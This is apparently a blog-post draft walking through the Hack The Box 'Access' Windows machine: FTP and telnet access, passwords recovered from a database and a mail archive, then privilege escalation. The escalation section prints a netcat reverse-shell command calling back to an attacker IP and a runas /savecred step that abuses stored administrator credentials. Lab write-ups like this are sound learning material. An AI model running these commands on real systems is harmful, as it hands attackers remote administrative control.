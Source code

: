```yaml
---
title: "Access Walkthrough(Hack The Box)"
date: 2025-03-20
draft: true
description: "a description"
tags: ["Easy", "Windows", "Hack The Box", "Hacking", "Active Directory", "Walkthrough"]
 
---
```

## Reconnaissance #Windows 
- We got straight away Webserver on port 80 and Telnet, FTP on the nmap scan.
- ![[Pasted image 20241216220450.png]]
- Apparently anon login allowed in FTP
- Let's try that and the web page mentions LON-MC6 which leads to MS09-042 a vulnerability in Telnet
- Anyway when I try to login in FTP it worked but after that I can't access any directories it's simply giving timeouts
## Enumeration
- There was a e-mail file and database file from the db file there was the password for mail zip file
- Within the mail file a password for Telnet was there
## Foothold
- I got the initial foot in using telnet 
- Then got the user flag
- ![[Pasted image 20241216231714.png]]
## Privilege Escalation
- Using `cmdkey /list` will show the available and stored creds.
- We can use runas for running as something if appropriate constraints are valid
- Here in this case we got saved creds so first lets transfer nc.exe to the machine
- Then use this command to save to bat file
```
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.12 6001 > shell.bat
```
- And execute it with runas command with saved creds
```
runas /user:administrator /savecred c:\users\security\shell.bat
```
- Then we got Administrator access in our nc listener
- We got root access
- ![[Pasted image 20241216233210.png]]
